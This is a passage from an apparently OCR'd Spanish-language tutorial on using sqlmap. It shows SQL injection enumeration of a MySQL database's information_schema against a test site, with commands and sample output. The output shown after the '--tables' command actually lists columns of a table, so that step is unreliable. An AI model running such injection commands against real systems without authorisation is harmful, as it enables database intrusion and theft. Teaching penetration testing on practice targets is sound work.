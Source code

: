         web application technology: Nginx, PHP 5.3.10

        back-end DBMS: MySQL >= 5.0

        [20:47:39] [INFO] fetching tables for database: 'information_schema"

        Database: information_schema

        [28 tables]

        + ------------------- +

        | CHARACTER_SETS  |

        | COLLATIONS      |

        | COLLATION_CHARACTER_SET_APPLICABILITY |

        | COLUMNS   |
        ```

        Una vez que la herramienta ha identificado la base de datos, podríamos preguntar al usuario si desea probar oro tipos de bases de datos o si desea probar otros parámetros en el sitio web en busca de vulnerabilidades.

    3. El siguiente paso podría ser utilizar el parámetro `-D`junto con el nombre de la base de datos para acceder a cualquiera de las bases de datos en particular.

        En el siguiente ejemplo, estamos usando la opción `--tables` para acceder a la base de datos `information_schema`:
        
        ```bash
        sqlmap -u http://testphp.vulnweb.com/listproducts.php?cat=1 -D information_schema --tables
        ```

        Con la ejecución del comando anterior, podemos obtener información sobre las tablas disponibles en la base de datos `information_schema`. Esta es una salida parcial:

        ```bash
        [21:23:30] [INFO] the back-end DBMS is MySQL

        web application technology: Nginx, PHP 5.3.10

        back-end DBMS: MySQL >= 5.0

        [21:23:30] [INFO] fetching columns for table 'views' in database 'information_schema'

        Database: information_schema

        Table: views

        [10 columns]

        + ------------------- + ----------------- +
        | Column              | Type              |
        + ------------------- + ----------------- +
        | CHARACTER_SET_CLIENT | varchar(32) |
